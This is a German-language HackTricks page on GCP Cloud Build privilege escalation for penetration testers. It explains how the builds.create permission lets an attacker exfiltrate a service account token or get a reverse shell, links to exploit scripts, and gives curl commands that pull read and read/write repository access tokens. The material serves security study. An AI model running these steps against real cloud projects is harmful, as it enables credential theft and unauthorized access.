 # GCP - Cloudbuild Privesc

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories senden.

</details>

## cloudbuild

Für weitere Informationen zu Cloud Build siehe:

{% content-ref url="../gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

Mit dieser Berechtigung können Sie **einen Cloud Build einreichen**. Die cloudbuild-Maschine wird standardmäßig einen Token des cloudbuild-Servicekontos in ihrem Dateisystem haben: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. Sie können jedoch **ein beliebiges Servicekonto innerhalb des Projekts** in der cloudbuild-Konfiguration angeben.\
Daher können Sie einfach die Maschine dazu bringen, den Token an Ihren Server zu exfiltrieren oder **eine Reverse-Shell darin zu erhalten und sich den Token selbst zu besorgen** (die Datei, die den Token enthält, könnte sich ändern).

Das ursprüngliche Exploit-Skript finden Sie [**hier auf GitHub**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) (aber der Ort, von dem es den Token abruft, hat bei mir nicht funktioniert). Überprüfen Sie daher ein Skript zur Automatisierung der [**Erstellung, des Exploits und der Bereinigung einer verwundbaren Umgebung hier**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) und ein Python-Skript, um eine Reverse-Shell in der cloudbuild-Maschine zu erhalten und [**sie hier zu stehlen**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (im Code finden Sie, wie Sie andere Servicekonten angeben können)**.**

Für eine ausführlichere Erklärung besuchen Sie [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)

### `cloudbuild.builds.update`

**Möglicherweise** können Sie mit dieser Berechtigung einen Cloud Build **aktualisieren und einfach das Servicekontoken stehlen**, wie es mit der vorherigen Berechtigung durchgeführt wurde (aber leider konnte ich zum Zeitpunkt dieses Schreibens keinen Weg finden, um diese API aufzurufen).

TODO

### `cloudbuild.repositories.accessReadToken`

Mit dieser Berechtigung kann der Benutzer das **Lesezugriffstoken** abrufen, das zum Zugriff auf das Repository verwendet wird:

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```

### `cloudbuild.repositories.accessReadWriteToken`

Mit dieser Berechtigung kann der Benutzer das **Lese- und Schreibzugriffstoken** abrufen, das zum Zugriff auf das Repository verwendet wird:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
{% endcode %}

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>
